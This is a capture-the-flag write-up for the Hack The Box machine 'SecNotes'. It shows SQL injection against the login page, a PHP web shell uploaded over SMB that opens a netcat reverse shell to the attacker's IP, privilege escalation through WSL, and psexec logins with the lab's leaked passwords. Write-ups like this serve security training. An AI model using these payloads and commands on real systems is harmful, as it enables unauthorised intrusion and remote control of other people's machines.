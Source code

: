 ```yaml
---
description: https://app.hackthebox.com/machines/151
---
```


# 🎶 SecNotes

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After the nmap scan, we see the web server is a login page:&#x20;

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I try and create an account and log in->

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We get access to a dashboard and a possible username

let's try unlogging and abuse this web app with SQLis

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

when we connect with the credentials it fills in an error, good news

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We try with some more SQLi patterns and end up having database infos leaked within the dashboard :

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>'OR 1 OR'</p></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find what seems to be credentials for an SMB share?

Other than the manual exploitation we could use psexec:

```
psexec.py tyler:'92g!mA8BGjOirkL%OG*&'@10.129.227.170
```

It did not work :

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So let's go manually with passwd **92g!mA8BGjOirkL%OG\*&**

```
smbclient \\\\10.129.227.170\\new-site -U tyler
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

now create a file called 'shell.php'

```
<?php system('nc.exe -e cmd.exe 10.10.14.94 9898') ?>
```

and then copy on your root directory netcat:

```
locate nc.exe
cp /usr/share/sqlninja/apps/nc.exe nc.exe
```

and on the smb share of tyler:

```
put shell.php
put nc.exe
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Using the `put` command to upload a reverse shell and your netcat executable to an SMB share on the target system, you're creating a foothold on the target system. Even if your initial access is lost, you can regain access through the uploaded tools and i'll be able to call netcat and so trigger my reverse shell to obtain a shell ->

So now i need to trigger my shell.php file, after some looking around i found where were stored the files:

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i simply request: [http://10.129.163.46:8808/shell.php](http://10.129.163.46:8808/shell.php)

and get a shell:

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and go and grab the flag:

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

For the elevation let's dive into subsystems:

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-windows-subsystem-for-linux-wsl" %}

first we saw that we needed to locate bash.exe, you can use a recursive search this way:

```
where /R c:\windows bash.exe
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

same for wsl.exe:

```
where /R c:\windows wsl.exe
```

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

quick explanation on why we're doing this:

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after trying to get a bash shell by triggering bash.exe, we get some useful infos:

<figure><img src="../../.gitbook/assets/image (21) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We are root but on a linux machine of secnotes, so not really what we are looking for

we are in a non tty, let's try to escape

for reminder, a non tty refers to a type of device or terminal that does not have interactive capabilities like a traditional teletypewriter or terminal.

Let's try to get a shell via a python import:

```
python -c "import pty;pty.spawn('/bin/bash')"
```

* `python`: This invokes the Python interpreter.
* `-c`: This option allows you to pass a command directly to Python for execution.
* `"import pty; pty.spawn('/bin/bash')"`: This is the Python code that gets executed.
  * `import pty`: This imports the `pty` module, which provides functions for controlling pseudo-terminals.
  * `pty.spawn('/bin/bash')`: This line spawns a new interactive shell (`/bin/bash`). When this line is executed, it effectively starts a new shell session within the current terminal session. The `pty.spawn()` function creates a new pseudo-terminal and executes the specified command (`/bin/bash`) within it. This results in a fully interactive shell prompt, allowing the user to execute commands and interact with the system as if they were using a normal terminal.

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys" %}

{% embed url="https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell" %}

now let's look what we have in the root folder:&#x20;

<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after looking through stuff we encounter:&#x20;

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

that's a quick and easy win, let's try some other stuff

Impacket Toolkit - [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

first, let's install impacket

```
psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.163.46
```

* `psexec.py`: This likely refers to a Python script named `psexec.py`. This script is likely designed to replicate the functionality of the original `PsExec` tool developed by Sysinternals, which allows for the execution of commands on remote Windows systems.
* `administrator:'u6!4ZwgwOM#^OBf#Nwnh'`: This part of the command specifies the username and password to authenticate to the target system. In this case, the username is `administrator` and the password appears to be `'u6!4ZwgwOM#^OBf#Nwnh'`. The password is enclosed in single quotes to ensure that special characters within it are properly interpreted.
* `@10.129.163.46`: This specifies the IP address or hostname of the target Windows system. The `psexec.py` script will attempt to connect to this system using the provided credentials and execute commands remotely.

<figure><img src="../../.gitbook/assets/image (25) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just go and fetch the file

<figure><img src="../../.gitbook/assets/image (26) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If A/V is blocking psexec, you can use smbexec or winexe

<figure><img src="../../.gitbook/assets/image (614).png" alt=""><figcaption></figcaption></figure>
